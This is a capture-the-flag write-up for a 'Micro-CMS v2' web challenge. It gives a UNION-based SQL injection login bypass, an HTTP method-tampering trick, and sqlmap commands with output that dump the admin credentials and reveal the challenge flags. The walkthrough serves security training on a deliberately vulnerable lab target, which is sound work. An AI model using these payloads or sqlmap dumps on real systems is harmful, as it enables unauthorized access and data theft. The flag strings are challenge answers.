 ```yaml
---
date: "2019-04-20"
title: "Micro-CMS v2"
category: "CTF"
---
```


CTF time !!
Let's find flags.

![alt text](https://media.giphy.com/media/sSmxfWnEVxtWU/giphy.gif)

### SQL Injection ~ 🚩(1/3)
Let's navigate to /login route (by clicking "Create a new page")
![alt text](https://storage.googleapis.com/warrenlee/myBlog/CTF/Micro-CMS%20v2/login.jpg)

By giving username ' (single quote), we got an error page
```
  Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
  ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
```

Focus on this line
```SQL
SELECT password FROM admins WHERE username=\'%s\'' ....
```

What if the username is -> 'UNION SELECT "AAA" AS password WHERE '1' = '1
<br/>
Then query will become
```SQL
SELECT password FROM admins WHERE username='' UNION SELECT "AAA" AS password WHERE '1' = '1'
```

This query fools the server to authorize any username with password = 'AAA'
<br />
After login, we got the first 🚩 from 'Private Page'
![alt text](https://storage.googleapis.com/warrenlee/myBlog/CTF/Micro-CMS%20v2/privatePage.jpg)


### Request Options ~ 🚩(2/3)
By making 'OPTIONS' request, we can get all available request methods.
<br />
Let's use httPIE
> http OPTIONS http://35.196.135.216:5001/5028781f57/page/edit/3

And we got
```
HTTP/1.1 200 OK
Allow: HEAD, GET, POST, OPTIONS
Connection: keep-alive
Content-Length: 0
Content-Type: text/html; charset=utf-8
Date: Sun, 21 Apr 2019 00:26:14 GMT
Server: nginx/1.14.0 (Ubuntu)
```
How about trying to make POST request to this API route ?
Then we got
```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=utf-8
Date: Sun, 21 Apr 2019 00:27:49 GMT
Server: nginx/1.14.0 (Ubuntu)
Transfer-Encoding: chunked

^FLAG^0086ed8f02a35b35564b43376bf49a4de75465a274582411f48412a8f276f813$FLAG$
```

### Exploit Database ~ 🚩(3/3)
To exploit database, we might need to use sqlmap (http://sqlmap.org/)

Let's start with simple test
> sqlmap -u http://35.196.135.216:5001/bfcaf3cbda/login --data "username=a&password=b"

And we got 
```
...
[22:03:47] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.14.0
back-end DBMS: MySQL >= 5.0
[22:03:47] [INFO] fetching database names
[22:03:47] [INFO] used SQL query returns 4 entries
[22:03:48] [INFO] retrieved: 'information_schema'
[22:03:48] [INFO] retrieved: 'level2'
[22:03:48] [INFO] retrieved: 'mysql'
[22:03:48] [INFO] retrieved: 'performance_schema'
available databases [4]:
[*] information_schema
[*] level2
[*] mysql
[*] performance_schema
```

Nice !!
It seems like database 'level2' is what we are looking for.
And 'username' is exploitable var.
Try the command to dump all data.
> sqlmap -u http://35.196.135.216:5001/bfcaf3cbda/login --data "username=a&password=b" -p username --dump

The result was
```
Database: level2
Table: admins
[1 entry]
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | adella   | britteny |
+----+----------+----------+

Database: level2
Table: pages
[3 entries]
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
| id | body                                                                                                                                                                                                                                                                                                                           | title               | public |
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
| 1  | ## Version 2\\nThis version fixed the multitude of security flaws and general functionality bugs that plagued v1.  Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20.  By default, users need to be an admin to add or edit pages now.\\n | Micro-CMS Changelog | 1      |
| 2  | Just testing some markdown functionality.\\n\\n![adorable kitten](https://static1.squarespace.com/static/54e8ba93e4b07c3f655b452e/t/56c2a04520c64707756f4267/1493764650017/)\\n\\n<button>Some button</button>                                                                                                                 | Markdown Test       | 1      |
| 3  | My secret is ^FLAG^b757c5b12ab66a482b0cbd036bd9cc3c36c7c3ee4c99020c8fb61aa787e04541$FLAG$                                                                                                                                                                                                                                      | Private Page        | 0      |
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
```

Hmm ~~~ how about logging the (username, password) = ('adella', 'britteny')

Then we got flag :)

